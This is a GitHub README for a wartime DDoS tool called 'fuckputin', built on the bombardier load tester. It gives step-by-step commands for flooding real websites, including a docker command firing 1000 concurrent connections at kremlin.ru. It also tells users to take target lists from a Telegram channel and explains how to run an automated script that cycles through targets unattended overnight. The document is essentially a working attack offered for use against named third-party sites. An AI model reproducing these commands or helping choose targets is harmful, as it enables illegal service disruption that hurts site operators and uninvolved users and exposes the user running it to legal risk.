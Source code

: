 # fuckputin

🇺🇦 A DDoS helper tool to bring down enemy websites - based on [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [Інструкція українською](./README_UA.md)

### Simplified instruction - manual execution
- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Last part of the comand is host url, you should pick one [from the last chat messages](https://t.me/itarmyofukraine2022)  

Automatic script performs the same command and loops through a list of hosts, so you can leave it unsupervised overnight or for long periods of time. It also automatically fetches updates to the list.

### Get the code
- Clone the repo - `git clone https://github.com/v1adko/fuckputin.git`   
  or  
[download a zip](https://github.com/v1adko/fuckputin/archive/refs/heads/master.zip) if git clone is taking too long
- Change working directory - `cd ./fuckputin`
- Optionally update [the targets](#targets)

### Targets

Best update targets from [this telegram channel](https://t.me/itarmyofukraine2022)  
Edit contents of the [./fuckputin.sh](/fuckputin.sh) file

### Docker

*Note*: this could take quite some time, if you're tech-savvy enough,  
try [installing binaries manually](#local) directly on your host system,  
it should be faster

- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- Optionally update [the targets](#targets)
- `docker-compose up --build` (on some systems compose is not installed with docker)
   **or**
- `docker build -t fuckputin .`
- `docker run fuckputin`

### Local

- Install Go - [Instructions](https://go.dev/doc/install)
- Install bombardier [by downloading a binary](https://github.com/codesenberg/bombardier/releases)
- Run `./fuckputin-local.sh`

### Run

Now leave the process running for as much as you can or until you need to update the targets  
Thank you for fighting on our side! 💪 🇺🇦
